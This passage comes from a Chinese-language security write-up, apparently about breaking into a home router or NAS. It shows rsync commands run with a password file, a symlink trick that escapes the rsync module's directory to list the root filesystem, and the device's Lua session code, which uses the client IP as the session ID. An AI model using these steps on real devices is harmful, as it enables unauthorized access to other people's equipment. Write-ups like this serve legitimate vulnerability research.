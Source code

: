 

```
&gt;&gt;&gt; ~/D/httpd rsync rsync@192.168.1.101::nas --password-file /tmp/p
drwxrwxrwx        4096 2016/11/01 12:35:47 .
drwxr-xr-x        4096 2016/11/01 12:35:47 HN1A009G9M12857
```

Bingo！

<br>

**0x02**

rsync 目录限制在 /mnt/netsrv/nas 了，如何绕过呢。

symbolic link 来帮你_(:3」∠)_ 

愚蠢的 rsync 并没有设置 chroot，于是我可以直接创建一个指向 / 的符号链接，然后可以访问任意目录。

[![](https://p5.ssl.qhimg.com/t01ea82d736a7268ab4.jpg)](https://p5.ssl.qhimg.com/t01ea82d736a7268ab4.jpg)



```
&gt;&gt;&gt; ~/D/httpd rsync --password-file /tmp/p rsync@192.168.1.101::nas/HN1A009G9M12857/pwn/
drwxr-xr-x         216 2016/07/23 11:28:55 .
lrwxrwxrwx          11 2016/07/23 11:28:43 linuxrc
lrwxrwxrwx           9 2016/07/23 11:28:55 tmp
drwxr-xr-x         971 2016/07/23 11:28:56 bin
drwxrwxrwt       10620 1970/01/01 08:00:10 dev
drwxr-xr-x         603 2016/07/23 11:28:55 etc
drwxr-xr-x          28 2016/07/23 11:28:43 home
drwxr-xr-x        1066 2016/07/23 11:28:56 lib
drwxr-xr-x          60 2016/07/23 11:27:31 mnt
dr-xr-xr-x           0 1970/01/01 08:00:00 proc
drwxr-xr-x         212 2016/07/23 11:28:56 product
drwxr-xr-x           3 2016/07/23 11:27:31 root
drwxr-xr-x         250 2016/07/23 11:28:43 sbin
drwxr-xr-x           0 1970/01/01 08:00:01 sys
drwxr-xr-x          38 2016/07/23 11:27:31 usr
drwxr-xr-x          50 2016/07/23 11:28:55 var
```

正当我愉快的打算 rsync 一个 lua 的 shell 到上面时，却发现除了 /tmp/，整个文件系统都不可写。

嘛，没关系，我们还有 Web 源码可以看。



```
local initsession = function()
  local sess_id = cgilua.remote_addr
  if sess_id == nil or sess_id == "" then
    g_logger:warn("sess_id error")
    return
  end
  g_logger:debug("sess_id = " .. sess_id)
  setsessiondir(_G.CGILUA_TMP)
  local timeout = 300
  local t = cmapi.getinst("OBJ_USERIF_ID", "")
  if t.IF_ERRORID == 0 then
    timeout = tonumber(t.Timeout) * 60
  end
  setsessiontimeout(timeout)
  session_init(sess_id)
  return sess_id
end
```
